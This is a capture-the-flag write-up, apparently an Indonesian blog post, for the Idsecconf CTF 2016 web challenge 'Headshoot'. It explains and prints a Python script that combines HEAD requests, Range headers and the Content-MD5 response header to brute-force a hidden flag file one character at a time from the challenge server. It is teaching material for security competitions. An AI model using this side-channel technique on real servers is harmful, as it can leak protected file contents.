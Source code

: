 ```yaml
---
layout: post
title: "Idsecconf CTF 2016 : Headshoot - 200"
description: "Idsecconf CTF 2016 Online"
headline: 
modified: 2016-08-29
date: 2016-08-29
category: ctf
tags: [idsecconf,Web Exploitation]
imagefeature: /images/idsecconf.jpg
mathjax: 
chart: 
comments: true
featured: false
---
```


### Problem :

`http://139.59.245.67:8000/`

### Solusi :

Di berikan sebuah website dan lokasi flag di beritahu ada di `http://139.59.245.67:8000/flag.txt`
namun kita hanya bisa menggunakan Method `OPTIONS,HEAD` 

menurut w3 protocol : `The HEAD method is identical to GET except that the server MUST NOT return a message-body in the response. `

`Content-MD5, A Base64-encoded binary MD5 sum of the content of the request body, Content-MD5: Q2hlY2sgSW50ZWdyaXR5IQ== Obsolete`

`echo 'T/JeCTIbbkLdlRS/YqTvHw==' | base64 -d | xxd`

![Headshoot MD5](/images/headshoot_md5.png)

ditemukan md5 `4ff25e09321b6e42dd9514bf62a4ef1f` tidak bisa di decrypt secara online. dan setelah
surving di wikipedia ternyata kita bisa menambahkan header Range: bytes 0-1. dan akan bisa mengatur Response header
dengan menambahkan range kita bisa melakukan bruteforce terhadap MD5 nya perkarakter.

```python
import requests
import hashlib
import string
import binascii


url = 'http://139.59.245.67:8000/flag.txt'

flag = ''


while True:
    headers = {'Range': 'bytes=0-'+str(len(flag)+1)}
    r = requests.head(url, headers=headers)
    md5 = r.headers.get('Content-MD5')
    md5 = binascii.a2b_base64(md5)
    md5 = binascii.hexlify(md5)
    print md5
    for c in string.printable:
        newflag = flag+c
        newmd5 = hashlib.md5(newflag).hexdigest()
        if newmd5==md5:
            flag+=c
            print flag
            break    

```

dan di dapatkan flag : `flag{HaveYouEverSeenMD5ContentHeaderBeforeThis?}`